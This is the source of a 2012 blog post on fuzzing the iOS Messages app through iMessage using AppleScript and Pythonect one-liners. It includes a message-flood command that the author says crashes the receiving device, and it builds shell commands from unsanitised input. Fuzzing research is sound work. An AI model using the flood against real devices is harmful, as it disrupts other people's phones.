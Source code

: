 ```yaml
---
layout: post
title: "Fuzzy iOS Messages!"
date: 2012-10-19 20:42:06
---
```


Awhile ago I came across a post about fuzzing with a new data flow language called Pythonect.  When I read about it I thought it sounded like a pretty nifty language so I decided to try using it to fuzz the iMessage interface in the iOS Messages app.

The first part of this task is to come up with a way to send messages to an iOS device using the iMessage service.  Luckily the new Messages app on OS X 10.8 has support for AppleScript and you can send messages through it.

~~~
#!/usr/bin/osascript

on run argv
    set theMessage to (item 1 of argv)

    tell application "Messages"
         send theMessage to buddy "BUDDY_NAME"
    end tell
end run
~~~

In this script we tell the Messages application to send a message that was given as an argument to the buddy `BUDDY_NAME`.  When you use it be sure to replace `BUDDY_NAME` with the correct buddy name you are using.  Also, I saved the script and named it `send_msg`.

From here it’s quite easy to use Pythonect to do some fuzzing.  For example, the following script will send groups of 4 and 8 A’s, B’s, C’s, and D’s.

~~~
['A', 'B', 'C', 'D'] -> [_ * n for n in [4, 8]] -> os.system("./send_msg " + _)
~~~

So what else can we do with Pythonect?  Well for starters you can increase the number of characters and messages sent effectively DoSing the device.  You could also mix and match characters to see what outcome that may arrive at.

I haven’t had much time to play with this but I’ve found that running the following command seems to crash the device.

~~~
['A', 'B', 'C', 'D', '*', '+', '\', '/'] -> [_ * n for n in [100, 200, 500, 1000, 2000, 5000, 10000, 20000, 50000, 100000, 200000, 500000, 1000000, 2000000, 5000000]] -> os.system("./send_msg " + _)
~~~

And, this one causes the actual name of the app to be displayed.

~~~
['*'] -> os.system("./send_msg " + _)
~~~

So there is clearly something going on here, definitely stay tuned for what lurks within!


